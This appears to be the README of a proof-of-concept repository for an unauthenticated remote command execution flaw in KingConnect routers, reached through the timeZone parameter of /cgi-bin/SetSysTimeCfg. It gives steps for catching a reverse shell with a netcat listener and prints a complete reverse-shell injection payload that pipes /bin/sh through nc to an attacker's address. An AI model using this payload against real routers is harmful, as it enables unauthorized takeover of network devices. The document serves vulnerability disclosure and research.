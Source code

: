 # KingConnect Wireless Router PoC: Unauthenticated Remote Code Execution

## Overview
- This repository contains a Proof-of-Concept (PoC) exploit for an Unauthenticated Remote Code Execution (RCE) vulnerability in KingConnect wireless routers. The exploit leverages a vulnerability in the /cgi-bin/SetSysTimeCfg endpoint, allowing attackers to execute arbitrary commands without authentication.

## Disclaimer
- This PoC is for educational and research purposes only. Unauthorized exploitation of this vulnerability on systems without explicit consent is illegal and unethical. Use this script responsibly and only in environments where you have proper authorization.

## Explot Details
- Affected Endpoint: /cgi-bin/SetSysTimeCfg
- Vulnerability: Lack of input sanitization allows the injection of shell commands via the timeZone parameter.
- Impact: Full remote command execution on the device.
- Requirements: Attackers must be able to reach the router over HTTP.

## Usage

### Prerequisites
- A Netcat listener running on the attacker's machine to catch the reverse shell.

`nc -lvnp <PORT>`

### Steps to Execute
1. Clone this repository

`https://github.com/badbiddy/KingConnect-Router-RCE.git`

`cd kingconnect-rce-poc`

2. Run the script

`python3 kingconnect_rce.py`

3. Input the following details when prompted
 - The IP address of the target KingConnect router.
 - The IP address of your Netcat listener.
 - The port number of your Netcat listener.

4. Upon successful execution, a reverse shell will connect to your Netcat listener.

## Technical Summary
- Vulnerable Parameter: timeZone
- The timeZone parameter is vulnerable to shell command injection due to insufficient input validation. By injecting a payload using | (pipe) and other shell operators, an attacker can execute arbitrary commands.

Sample Malicious Payload:

`|rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <attacker_port> >/tmp/f &&`

## License
- This project is licensed under the MIT License.
